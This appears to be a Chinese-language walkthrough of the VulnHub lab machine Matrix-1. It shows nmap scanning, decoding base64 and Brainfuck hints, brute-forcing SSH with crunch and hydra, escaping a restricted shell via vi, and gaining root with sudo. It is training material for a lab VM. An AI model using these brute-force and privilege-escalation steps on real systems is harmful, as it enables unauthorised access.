# Matrix-1

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Matrix-1（IP：192.168.56.107）

下载：https://www.vulnhub.com/entry/matrix-1,259/

## Let's go

```
nmap -A 192.168.56.107
```



> **审查发现一串base64的编码**



```
echo 'ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=' | base64 -d
```





```
cat ./下载/Cypher.matrix
```



> **虽然看不懂，但是搜索发现是 brainfuck ，我们可以进行解密**
>
> **推荐网站：http://ctf.ssleye.com/brain.html**



> **我们得到了密码 'k1ll0r\*\*'，虽然不完整但我们可以制作字典进行爆破**

```
crunch 8 8 -t k1ll0r%@ -o 1.txt
hydra -l guest -P ./1.txt -vV 192.168.56.107 ssh
```



> **登录发现我们拿到一个受限的shell，不过 vi 可以使用**

```
:!/bin/bash
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```





```
sudo -l
```



```
sudo sh
cd /root
cat flag.txt
```

